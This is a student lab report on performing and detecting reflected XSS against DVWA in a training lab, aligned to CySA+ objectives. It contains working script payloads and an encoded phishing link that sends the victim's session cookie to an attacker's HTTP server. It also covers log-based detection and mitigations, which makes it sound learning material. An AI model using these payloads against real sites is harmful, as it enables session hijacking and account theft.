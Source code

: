 # Lab Report: Performing and Detecting Reflected XSS

## Overview

In this lab, I performed and investigated a reflected XSS (Cross-Site Scripting) attack using the DVWA (Damn Vulnerable Web Application) hosted on a local LAMP server. The objective was to understand how reflected XSS works and how to identify its indicators in Apache web logs.

---

## Lab Objectives

This lab aligns with the following CompTIA CySA+ objectives:

- **1.1** System and network architecture in security operations
- **1.2** Analyze indicators of potentially malicious activity
- **1.3** Use tools or techniques to determine malicious activity
- **1.4** Threat-intelligence and threat-hunting concepts
- **2.4** Mitigate attacks and software vulnerabilities
- **3.2** Perform incident response activities
- **3.5** Attack methodology frameworks

---

## Lab Environment

- **KALI VM**: Used for reconnaissance and launching XSS attacks
- **LAMP VM**: Hosts DVWA, the vulnerable web application
- **Browser**: Firefox ESR
- **Tools**: Terminal, Apache log viewer, Python HTTP server

---

## Part 1: Performing Reflected XSS

### Step 1: Verifying DVWA Access

- Navigated to `http://dvwa.structureality.com` and logged in as `admin` / `password`.
- Ensured security level was set to **Low**.

![DWA ](images/dwa_screen.jpg)

### Step 2: Testing Basic Input

- Navigated to `XSS (Reflected)` page
- Submitted `testuser` in the "What's your name?" field.
- Verified output: `Hello testuser`.

![DWA test](images/dwa_helloTest.jpg)

### Step 3: Submitting Malicious Script

Submitted the following input:

```html
<script>
  alert("You have been hacked!");
</script>
```

- Popup appeared confirming script execution.

Submitted next:

```html
<script>
  alert(document.cookie);
</script>
```

- Popup displayed PHPSESSID, demonstrating cookie theft via reflected XSS.

![cookie ](images/dwa_cookie.jpg)

## Part 2: Polluting Referrers

- Repeated previous inputs but returned to the XSS page after each submission.
- This approach simulates real attacker behavior and affects HTTP referrer headers in logs.

## Part 3: Simulating a Realistic XSS Attack

### Step 1: Set Up Malicious Web Server

On Kali:

```bash
touch index.html
python -m http.server 9999
```

![server ](images/kali_server.jpg)

### Step 2: Simulated Phishing Email

Opened /root/email.html which contained:

```html
<a
  href="http://dvwa.structureality.com/vulnerabilities/xss_r/?name=%3cscript%3ewindow.location%3d%27http%3a%2f%2f10.1.16.66%3a9999%2f%3fcookie%3d%27%2bdocument.cookie%3c%2fscript%3e"
  >Activate your 6-months of free Premium Service!</a
>
```

- Clicking the link caused session cookie to be sent to attacker's HTTP server.

![email ](images/email.jpg)

## Part 4: Investigating the Attack (On LAMP)

### Step 1: Navigate Apache Logs

```bash
cd /var/log/apache2
ls -l
```

![apache logs ](images/apache_logs.jpg)

### Step 2: Locate Malicious Request

Searched for encoded socket:

```bash
grep 10.1.16.66%3a9999 access.log
```

- Found HTTP GET request showing full reflected XSS payload.

```bash
GET /vulnerabilities/xss_r/?name=%3cscript%3ewindow.location%3d...
```

![grep log ](images/grep_log.jpg)

### Step 3: Trace Reconnaissance Activity

```bash
tail -n 25 access.log
```

Found evidence of prior requests:

- GET /vulnerabilities/xss_r/?name=testuser2
- GET /vulnerabilities/xss_r/?name=%3cscript%3ealert("You+have+been+hacked!+Again!")%3c%2fscript%3e
- GET /vulnerabilities/xss_r/?name=%3cscript%3ealert(document.cookie)%3c%2fscript%3e

## Analysis

- The attack was executed using a reflected XSS payload encoded in a phishing link.
- Apache logs confirmed the attack via the GET request and referrer fields.
- The session token (PHPSESSID) was successfully exfiltrated to the attacker's machine.
- Apache logs captured key IOCs: attacker IP, percent-encoded payload, and suspicious referrers.

## Mitigation Recommendations

- Sanitize user input with proper encoding
- Use Content Security Policy (CSP)
- Employ web application firewalls
- Enable HttpOnly and Secure flags on cookies
- Conduct regular log reviews and implement alerting on suspicious patterns

## Conclusion

This lab demonstrated how a simple reflected XSS vulnerability could be exploited to hijack a user's session. It also showed the importance of log analysis and early detection of such activity within access logs.
